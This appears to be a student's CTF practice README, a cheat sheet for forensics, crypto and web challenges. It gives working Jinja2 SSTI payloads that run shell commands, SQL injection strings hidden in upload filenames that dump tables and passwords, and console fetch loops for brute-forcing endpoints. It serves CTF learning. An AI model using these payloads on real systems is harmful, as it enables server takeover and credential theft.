

# a1sberg-ctf-walkthrough
answering challenges in the practice website provided for the upcoming kyokugen ctf 2026

# [useful guide below](#useful-guided)



# guide idk [WIP]
<details>
<summary>
Forensics
</summary>

* **`dd files`:**
    ```bash
    fdisk -l FILENAME.dd
    ```


<details>
    <summary>
    soon.
    </summary>
</details>

</details>


<details>
<summary>
Crypto
</summary>

useful links for ciphers:
- cipher identifier - [https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier)
- most ciphers - [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
- MD5, specifically - [https://crackstation.net/](https://crackstation.net/)

<details>
    <summary>
    soon.
    </summary>
</details>

</details>

# WEB EXPLOIT

> [!NOTE]
> google this: SSTI, SQLi, IDOR, XSS

## inspect (chrome)
always do this first.<br>
press `ctrl+shift+i` to inspect. 

- **check html, css, js:** <br>click "Sources". 
- - always check for `static/` folder.
- **cookies, storages:** <br>click "Application" (click `>>` to see). 
- - look on the cookies and texts with storage in it.

<br>

# If the website has...

## 1. Input and submit button
for login, search, or anything that processes input.<br><br>
**SSTI (server-side template injection)**

submit this to see if it works with JINJA2 (Python):
```bash
{{ 7*7 }}
```
if it returns `49`, good job. u can now try submitting these to execute [Bash](https://www.w3schools.com/bash/bash_commands.php) commands:
```bash
{{ lipsum.__globals__['os'].popen('PUT BASH COMMAND HERE').read() }}
```
for example:
- **list files (including hidden ones):**
```bash
{{ lipsum.__globals__['os'].popen('ls -a').read() }}
```
- **read a file:**
```bash
{{ lipsum.__globals__['os'].popen('cat idk.txt').read() }}
```
- **create or write a file:**
```bash
{{ lipsum.__globals__['os'].popen('echo "hello world" > idk.txt').read() }}
```
- **find a file (search for `fl` in filename):**
```bash
{{ lipsum.__globals__['os'].popen('find / -name "fl*"').read() }}
```
- **read a loaded backend variable:**
```bash
{{ url_for.__globals__['FLAG'] }}
```

---

## 2. File upload 'Choose File' button
**SQLi (sql injection)**

create a file and upload it to see if it works with SQLi, name it:
```sql
' AND (SELECT 1/0);--.jpg
```
if it throws an error, good job. u can now try submitting these to execute [SQL](https://www.w3schools.com/sql/sql_syntax.asp) commands:

- **list all tables:**
```sql
' UNION SELECT name FROM sqlite_master WHERE type='table';--.jpg
```
- **display table `users` data (change it to whatever table name):**
```sql
' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='users';--.jpg
```
- **extract the `password` (change it to whatever variable name):**
```sql
' UNION SELECT password FROM users;--.jpg
```
- **extract the `password` (if its limited to displaying just one, change the offset to whatever number):**
```sql
' UNION SELECT password FROM users LIMIT 1 OFFSET 0;--.jpg
```

---
<br>

# Browser console
mix and match some codes here like lego idk

### 1. modifying elements
after u look at the html when u # [inspect](#inspect) the site.

- **get an element by class (use `.`):**
```javascript
document.querySelector('.element_name');
```
- **get an element by class (use `#`):**
```javascript
document.querySelector('#element_name');
```
- **get an element without class or id (html tag + attribute `[]`):**
```javascript
document.querySelector('button[type="submit"]');
```
- **set text:**
```javascript
document.querySelector('.username').value = 'anything idk';
```
- **click an element (add `.click()`):**
```javascript
document.querySelector('.button1').click();
```
- **submit a form directly:**
```javascript
document.querySelector('.form1').submit();
```
- **reveal hidden elements (removes "display: none"):**
```javascript
document.querySelectorAll('[style*="none"]').forEach(e => e.style.display = 'block');
document.querySelectorAll('[hidden]').forEach(e => e.removeAttribute('hidden'));
```

### 2. Fetch
use `fetch` to talk to the server directly. <br>this bypasses UI restrictions.

- **send a post request:**
```javascript
fetch('/api/play', { // <-- modify this: paste the url from the network tab
    method: 'POST',  // <-- modify this: GET or POST
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ luck: 1 }) // <-- modify this: put the payload variable here ex. luck with specified value ex. 1
})
.then(res => res.json())
.then(data => console.log(data)); // this prints the server's hidden response
```

**where to find the url and variables:**

1. [inspect](#inspect-chrome) and go to the **Network** tab.
2. do some action on the website (like submit a form or click buttons).
3. a new thing on the list might show up. click it.
4. check the **Headers** tab to find the url and method. 
5. check the **Payload** tab to see the variable names.


### 3. Looping
useful for brute-forcing passwords, spamming api endpoints, or clicking elements rapidly.

- **basic loop (for fast ui actions):**
```javascript
for (let i = 0; i < 100; i++) { // loop 100 times
    // do anything here, for example:
    document.querySelector('button').click();
}
```

- **async loop (for fetch):**<br>
**when to use:** use this anytime you put `fetch` in a loop. if you use a basic loop for `fetch`, it fires all requests at the exact same millisecond, which can crash your browser or trigger server blocks.<br>
**how it works:** `async` allows you to use the `await` keyword.<br> `await` forces the code to pause and wait for the server's reply before starting the next loop.

```javascript
async function spam() {
    for (let i = 0; i < 10; i++) { // loops 10 times
        
        let res = await fetch('/api/guess', { 
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ guess: i }) // sends guess: 0, then guess: 1, etc.
        });
        
        // 'await' makes it pause here until the server replies
        let data = await res.json();
        console.log(`guess ${i}:`, data);
    }
}
spam(); // this triggers the function to start
```

</details>
